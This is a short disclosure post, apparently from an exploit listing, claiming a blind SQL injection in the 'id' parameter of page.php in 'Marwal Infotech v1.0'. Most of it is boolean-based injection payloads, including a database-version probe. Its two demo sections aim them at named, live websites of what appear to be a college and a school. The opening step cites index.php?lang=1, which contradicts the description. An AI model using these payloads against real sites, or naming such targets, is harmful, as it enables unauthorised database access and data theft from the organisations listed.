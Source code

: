 ## Marwal Infotech - Blind Sql Injection Vulnerability

#### vender:https://marwalinfotech.com/

#### Software:Marwal Infotech v1.0

- Category:webapps
- Tested On: mac, Firefox
- [+] First add "and true" and then "and false" to the end of the link :

* Target.com/index.php?lang=1 true
* Target.com/index.php?lang=1 false

### Description

Marwal Infotech v1.0 has a SQLi in page.php of param "id".

### Demo 1:
* https://www.tagorettcollege.com/page.php?id=23%20and%20true--
* https://www.tagorettcollege.com/page.php?id=23%20and%20false--
* https://www.tagorettcollege.com/page.php?id=23%20and%20substring(@@version,1,1)=1--
### Demo 2:
* https://www.gpsgotan.co.in/page.php?id=61%20and%20true--
* https://www.gpsgotan.co.in/page.php?id=61%20and%20false--
* https://www.gpsgotan.co.in/page.php?id=61%20and%20substring(@@version,1,1)=1--